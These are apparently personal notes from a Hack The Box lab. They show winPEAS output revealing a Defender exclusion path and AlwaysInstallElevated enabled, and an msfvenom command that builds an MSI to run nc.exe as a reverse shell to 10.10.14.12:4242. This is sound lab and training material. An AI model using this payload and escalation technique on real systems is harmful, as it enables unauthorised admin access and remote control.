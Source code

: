 ````bash
   [32m(((((((((. ,[92m(############################([32m../(((((((((.[97m
       [32m(((((((((/,  [92m,####################([32m/..((((((((((.[97m
             [32m(((((((((/,.  [92m,*//////*,.[32m ./(((((((((((.[97m
                [32m(((((((((((((((((((((((((((/[97m
                       by carlospolop





Checking for defender whitelisted PATHS

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths
    C:\Administration    REG_DWORD    0x0
    C:\xampp\htdocs\omrs    REG_DWORD    0x0

 [33m[+][97m PowerShell settings
PowerShell v2 Version:

    

 [33m[+][97m AlwaysInstallElevated?
   [i] If '1' then you can install a .msi file with admin privileges ;)
   [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1


HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1


[32m[*][97m NETWORK
 [33m[+][97m CURRENT SHARES


---
Scan complete.
````
- suggests one can put nc.exe on  <span class="myYellowHighlight">C:\xampp\htdocs\omr</span>
- generate an .msi and download to this location user curl
````bash
msfvenom -p windows/exec CMD='C:\xampp\htdocs\omrs\nc.exe -e cmd 10.10.14.12 4242' -f msi > /home/qdada/HTB/boxes/10.10.10.239-Love/callhome2.msi
````
- lunch a listener and profit